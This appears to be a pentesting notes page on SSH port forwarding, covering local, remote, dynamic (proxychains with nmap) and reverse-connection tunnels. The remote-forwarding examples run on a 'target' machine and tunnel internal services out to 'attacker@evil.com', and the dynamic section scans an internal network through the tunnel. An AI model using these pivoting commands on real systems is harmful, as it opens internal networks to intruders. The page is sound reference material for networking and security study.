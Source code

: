 ```yaml
---
title: Port Forwarding with SSH
description: SSH tunneling, also known as port forwarding, is a method of creating a tunnel between two endpoints through which traffic is forwarded.
tags:
    - Network
refs:
    - https://linuxize.com/post/how-to-setup-ssh-tunneling/
date: 2024-07-04
draft: false
---
```


## Local Port Forwarding

We can forward a port on the local machine to a port on the remote machine by adding the flag **"-L"** with SSH.  
Also, it is required the remote SSH username/password.

```sh
ssh -L [<local-ip>:]<local-port>.<destination-ip>:<destination-port> remote-user@<remote-ip>

# -f: Background
# -N Do not execute remote commands
ssh -L [<local-ip>:]<local-port>:<destination-ip>:<destination-port> remote-user@<remote-ip> -fN
```

### Examples

Below are some examples.

```sh
# We can access the internal webserver in the remote machin via http://127.0.0.1/
sudo ssh -L 80:127.0.0.1:80 john@example.com
sudo ssh -L localhost:80:127.0.0.1:80 john@example.com

# We can connect the database on local port 3306
ssh -L 3306:db.example.com:3306 john@example.com
ssh -L localhost:3306:db.example.com:3306 john@example.com
# Another port
ssh -L 3336:db.example.com:3306 john@example.com

# Multiple ports
ssh -L 8001:127.0.0.1:8001 -L 9090:127.0.0.1:9090 john@example.com
```

### Stop Local Port Forwarding

To stop the local port forwarding if it is running background, find the process ID and specify it to **`kill`** command.

```sh
ps aux | grep ssh
kill <PID>
```

<br />

## Remote Port Forwarding (Reverse Port Forwarding)

We can forward a port on the remote machine to a port on the local machine by adding the flag **"-R"** with SSH.  

```sh
ssh -R [<remote-ip>:]<remote-port>:<destination-ip>:<destination-port> remote-user@<remote-ip>
```

### Examples

Run the following command on remote (target) machine:

```sh
# Example 1
ssh -R 8080:127.0.0.1:3000 attacker@evil.com
# Now access to 127.0.0.1:3000 in local machine. That means taht we can access to 127.0.0.1:8080 of remote machine.

# Example 2
ssh -R 192.168.27.30:5555:127.0.0.1:4444 attacker@evil.com
# Now access to 127.0.0.1:4444 in local machine. That means that we can access to the remote's internal service (192.168.27.30:5555).
```

<br />

## Dynamic Port Forwarding

If we cannot determine the remote ports opened internally, we can find them using dynamic port forwarding.  
First off,  execute the dynamic port forwarding using ssh.

```sh
ssh -D 1337 remote-user@<remote-ip>
```

And update the configuration for Proxychains.  
In **“/etc/proxychains.conf”**, comment out **“socks4 127.0.0.1 9050"** and add **“socks5 127.0.0.1 1337”** on the bottom of the file.  

```bash
# socks4 127.0.0.1 9050
socks5 127.0.0.1 1337
```

After that, try port scanning to find open ports of the remote machine over 127.0.0.1.

```sh
proxychains nmap 127.0.0.1
```

When we found the open ports, we can execute the Local Port Forwarding using the ports we found.  
*By the way, we can close the previous dynamic port forwarding if not necessary.

```bash
ssh -L <local-port>:127.0.0.1:<port-we-found> remote-user@<remote-ip>

# e.g.
# If we want to open port 80 in local, we need to run as root privilege.
sudo ssh -L 80:127.0.0.1:80 john@example.com
ssh -L 3306:127.0.0.1:3306 john@example.com
```

For instance, assume that the remote machine opens port 80 internally.  
Now access http://127.0.0.1/. We can access the remote webserver.

<br />

## Reverse Connection

Reverse connections are often used in situations where the server needs to be accessible from the client's network, but the server's network is restricted. By initiating a reverse connection, the client can establish a connection to the server without the need for the server to be accessible on the public internet.

### 1. Generate SSH Keys in Remote Machine

```sh
ssh-keygen
```

Then save them (public key and private key) to arbitrary folder.

```sh
mkdir /home/remote-user/reverse-keys
mv id_rsa /home/remote-user/reverse-keys
mv id_rsa.pub /home/remote-user/reverse-keys
```

Copy the content of public key (id_rsa.pug).

### 2. Add Content of Public Key to authorized_key in Your Local Machine

```sh
echo 'content of publick key' >> ~/.ssh/authorized_key
```

To clarify that the key only for reverse connection, add the following line to this content in authorized_key.

```sh
# ~/.ssh/authorized_key
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty id-rsa
AAAAAB3NzaC........
```

Check if SSH server is running.  
If the server is not running, start SSH server.

```sh
sudo systemctl status ssh
```

### 3. Run Reverse Proxy in Remote Machine

Reverse port forwarding using the private key (id_rsa)

```sh
ssh -R <local-port>:<remote-ip>:<remote-port> local-user@<local-ip> -i id_rsa -fN
```

### 4. Confirmation in Your Local Machine

You can access to **\<remote-ip>:\<remote-port>**

### 5. Close Connection in Remote Machine

After that, stop reverse connection.

```sh
ps aux | grep ssh
sudo kill <PID>
```